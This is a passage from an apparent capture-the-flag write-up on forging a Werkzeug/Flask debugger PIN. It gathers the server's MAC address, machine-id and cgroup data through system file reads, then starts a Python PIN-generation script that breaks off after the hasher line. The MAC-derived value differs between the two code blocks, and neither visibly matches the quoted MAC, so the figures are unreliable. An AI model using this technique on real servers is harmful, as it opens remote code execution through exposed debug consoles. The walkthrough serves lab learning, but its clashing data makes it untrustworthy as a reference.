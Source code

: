     **Server's MAC**: "00:50:56:b9:9e:ca" => For this, we need to read file `/proc/net/arp`.

    ![alt text](img/image-12.png)

    **Machine_id**: "ed5b159560f54721827644bc9b220d00superpass.service" => For this, we need to read file `/etc/machine-id`+`/proc/self/cgroup` file.

    ![alt text](img/image-13.png)


Here's our `private` bits.

```bash
private_bits = [
    '345052367029','ed5b159560f54721827644bc9b220d00superpass.service'
]
```



To find correct `PIN`, I need to use below `Python` script.

```python
import hashlib
from itertools import chain
probably_public_bits = [
 'www-data',# username
 'flask.app',# mod name
 'wsgi_app',# app name
 '/app/venv/lib/python3.10/site-packages/flask/app.py' # flask app.py
]

private_bits = [
 '345052368912',# MAC Address
 'ed5b159560f54721827644bc9b220d00superpass.service'# machine id
]

#h = hashlib.md5() # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
```